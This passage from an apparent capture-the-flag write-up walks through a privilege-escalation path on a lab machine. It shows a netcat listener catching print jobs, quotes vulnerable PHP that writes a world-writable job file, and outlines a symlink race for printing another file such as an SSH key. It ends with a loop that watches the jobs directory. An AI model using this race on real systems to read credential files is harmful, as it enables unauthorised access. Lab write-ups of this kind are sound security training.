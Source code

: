 After adding a printer with my IP address, a print job can be sent to it on port 9100.

![Sending job to printer](quick_web-7.png)

The listener on my IP and port 9100 received a connection and the specified text:
```
nc -lvnkp 9100

Ncat: Listening on :::9100
Ncat: Listening on 0.0.0.0:9100
Ncat: Connection from 10.10.10.186.
Ncat: Connection from 10.10.10.186:53970.
Ncat: Connection from 10.10.10.186.
Ncat: Connection from 10.10.10.186:54006.

This is a testVA
```

The file _job.php_ contains the code for how this function works and there is a vulnerability:
```php
// (...)
file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);
chmod("/var/www/printer/jobs/".$file,"0777");
// (...)
$printer = new Printer($connector);
$printer -> text(file_get_contents("/var/www/jobs/".$file));
// (...)
```

It creates a file in _/var/www/jobs_ and sets the the permissions to 777 and for printing it reads from this file.
By creating a symlink on the file in the right moment, we should be able to specify another file to print the contents of the specified file.
This file could be an SSH key for example.

Finding out the name of the file:
```
sam@quick:/var/www/jobs$ for i in $(seq 0 100); do sleep .2; ls; done
```
